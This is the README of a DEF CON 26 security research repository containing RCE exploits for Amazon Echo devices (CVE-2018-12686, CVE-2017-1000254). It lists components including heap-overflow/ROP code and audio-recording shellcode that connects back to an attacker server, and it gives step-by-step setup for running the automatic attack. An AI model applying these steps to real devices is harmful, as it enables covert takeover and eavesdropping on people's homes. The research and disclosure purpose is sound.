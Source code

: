 # [DEF CON 26] Breaking Smart Speaker - Exploit Amazon Echo

Shellcode, reports of Amazon Echo, which we have presented on Defcon26

This repository contains RCE exploit codes for the Amazon Echo devices.

These exploits are based on the libcivetweb RCE vulnerability (CVE-2018-12686), and the libcurl Information leak vulnerability (CVE-2017-1000254). For more details on Amazon Echo EXP, you may read the full slide that our speech at defcon26,  [available here](https://media.defcon.org/DEF%20CON%2026/DEF%20CON%2026%20presentations/Wu%20HuiYu%20and%20Qian%20Wenxiang/).

## Features ##

  * echo_leak: Contains the FTP server and the web server to trigger an information leak.
  * heap_exp: PoC code contains heap overflow and ROP.
  * whad_patch_privkey: Being used to obtain all whad certificates for client-authenticated TLS handshake on a root device (Since you can control the physically rooted device, you should turn off ASLR on it).
  * record_shellcode: Contains assembly code of shellcode for recording, which can be compiled using ndk.
  * tcpserver.py: If you are using the shellcode above, you can use this as server.

## Setup the PoC ##

1. Start an HTTP server, we will refer the IP address of this HTTP server as 'X'.
2. Please modify IP address in every files under **echo_leak\put under webserver** to X.
3. Then modify the IP address in a.php, b.php, test.pls.
4. Please modify the **CWD  = 'XXXXXXX'** in **echo_leak\ftpServer\ftp_server.py,** change this to the full folder name where ftp_server.py actually is. And change **every host1** to the address of Echo device(we will call this Y later), **hexurl** to X.
5. Please modify the IP address in **echo_leak\ftp_trigger.py**, where **host1** is Y, and **hexurl** to X.
6. Please modify the IP address in **heap_exp\expl.py**. Set **host1** to Y.
7. Please modify the IP address in **heap_exp\tcpserver.py**. Set **bind address** to X.
8. Please run **python genshellcode.py ADDRESS_OF_YOUR_HOST(X) PORT**, then copy the **shellcode.bin** to **echo_leak\ftpServer** for example: `python genshellcode.py 10.0.0.141 9999`
9. To adapt to different systems, you may adb pull the libc.so and libcrypto.so to heap_exp\, then run **python gengadgets.py** to generate the offset value of functions.
10. Modify the value in **conf.py**, ROP_CONFIG[‘gadgets’].
11. Run **python tcpserver.py** in **heap_exp** to start the server.
12. Run **sudo python start.py** in **echo_leak\ftpServer** to start the automatic attack.
13. Wait for the Echo device to connect, this could take up to 10~60minutes to connect. (The average time of one successful attack is about 30 minutes).

**PS: If you want to use the shellcode for recording, you may need to compile the code in the record_shellcode directory and fill the address of the function and the IP.**

## Contact us

If you've got any problems of our repository, please contact
blade@tencent.com. Ideas and solutions are always apperaciated!
